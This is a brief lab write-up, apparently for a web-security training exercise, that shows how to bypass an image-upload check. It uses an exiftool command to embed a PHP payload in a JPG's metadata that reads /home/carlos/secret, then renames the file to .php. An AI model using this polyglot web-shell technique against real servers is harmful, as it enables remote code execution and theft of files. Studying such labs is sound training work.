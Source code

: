 ### Lab: Remote code execution via polyglot web shell upload

This lab contains a vulnerable image upload function.
Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret.
Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter


Web-Server behavior:

1) Upload file.png (1kb) ===> Error: file is not a valid image Sorry, there was an error uploading your file.
2) Upload file.jpg (1kb) ===> Error: file is not a valid image Sorry, there was an error uploading your file.
3) Upload dog.jpg (35kb) ===> The file avatars/dog.jpg has been uploaded. (Path: /files/avatars/dog.jpg)



Exploit:
1) PHP injection in legit JPG file via exitftool (**exiftool -DocumentName="<?php echo file_get_contents('/home/carlos/secret');__halt_compiler();?> [IMAGE FILE]**")  
    1a) Rename injected file *.jpg into *.php ===> The file avatars/dog_php_injected.php has been uploaded.
